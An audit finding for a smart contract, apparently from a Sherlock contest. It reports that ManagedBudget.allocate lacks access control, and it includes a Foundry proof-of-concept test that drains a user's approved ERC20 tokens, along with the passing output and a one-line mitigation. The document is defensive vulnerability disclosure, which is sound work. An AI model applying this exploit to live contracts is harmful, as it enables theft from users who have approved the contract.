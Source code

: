 Breezy Ivory Ostrich

High

# Attacker can drain tokens from users who have approved the ManagedBudget contract

### Summary

Lack of access control in the `allocate` function will cause unauthorized token transfers for users who have approved the `ManagedBudget` contract as an attacker will call the `allocate` function with arbitrary target addresses.


### Root Cause

In [`ManagedBudget.sol `, the `allocate` function](https://github.com/sherlock-audit/2024-06-boost-aa-wallet/blob/main/boost-protocol/packages/evm/contracts/budgets/ManagedBudget.sol#L57-L90) lacks access control and allows arbitrary target addresses.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. User (e.g., Alice) approves the `ManagedBudget` contract to spend their tokens:
    ```solidity
    erc20Token.approve(address(managedBudget), 1000);
    ```
2. Attacker crafts a malicious `Transfer` struct with Alice's address as the target:
    ```solidity
    Transfer memory maliciousTransfer = Transfer({
        assetType: AssetType.ERC20,
        asset: address(erc20Token),
        target: alice.address,
        data: abi.encode(FungiblePayload({ amount: 1000 }))
    });
    ```
3. Attacker calls the `allocate` function with the crafted `Transfer` struct:
    ```solidity
    managedBudget.allocate(abi.encode(maliciousTransfer));
    ```
4. The `allocate` function executes the transfer, moving tokens from Alice to the `ManagedBudget` contract without her consent.


### Impact

The affected users suffer a loss of their approved tokens up to the full amount of their allowance. The attacker gains control over these tokens within the `ManagedBudget` contract and transfer all the approved tokens.


### PoC

- Add the test function to the `ManagedBudget.t.sol`
- Use the following command to run the test and verify the bug:
```bash
forge test --match-path ./test/budgets/ManagedBudget.t.sol --mt testAllocate_UnauthorizedTransfer -vvv
```
#### test poc
```solidity
    function testAllocate_UnauthorizedTransfer() public {
        // Step 1: Setup - Alice approves the ManagedBudget contract to spend her tokens
        address alice = address(0x1);
        address attacker = address(0x2);
        mockERC20.mint(alice, 100 ether);
        vm.prank(alice);
        mockERC20.approve(address(managedBudget), 100 ether);

        // Step 2: Craft Malicious Transfer - Attacker crafts a Transfer struct with Alice's address as the target
        bytes memory data = abi.encode(
            ABudget.Transfer({
                assetType: ABudget.AssetType.ERC20,
                asset: address(mockERC20),
                target: alice,
                data: abi.encode(ABudget.FungiblePayload({ amount: 100 ether }))
            })
        );

        // Step 3: Call Allocate - Attacker calls the allocate function
        console.log("Alice's balance before attack:", mockERC20.balanceOf(alice));
        console.log("ManagedBudget's balance before attack:", mockERC20.balanceOf(address(managedBudget)));
        vm.prank(attacker);
        managedBudget.allocate(data);
        console.log("Alice's balance after attack:", mockERC20.balanceOf(alice));
        console.log("ManagedBudget's balance after attack:", mockERC20.balanceOf(address(managedBudget)));

        // Step 4: Verify - Ensure the tokens were transferred from Alice to the ManagedBudget contract
        assertEq(mockERC20.balanceOf(alice), 0);
        assertEq(mockERC20.balanceOf(address(managedBudget)), 100 ether);
    }
```

#### Output
```bash
Ran 1 test for test/budgets/ManagedBudget.t.sol:ManagedBudgetTest
[PASS] testAllocate_UnauthorizedTransfer() (gas: 85244)
Logs:
  Alice's balance before attack: 100000000000000000000
  ManagedBudget's balance before attack: 0
  Alice's balance after attack: 0
  ManagedBudget's balance after attack: 100000000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 8.05ms (2.04ms CPU time)

Ran 1 test suite in 221.17ms (8.05ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

### Mitigation

Add access control to the `allocate` function and ensure the target is the caller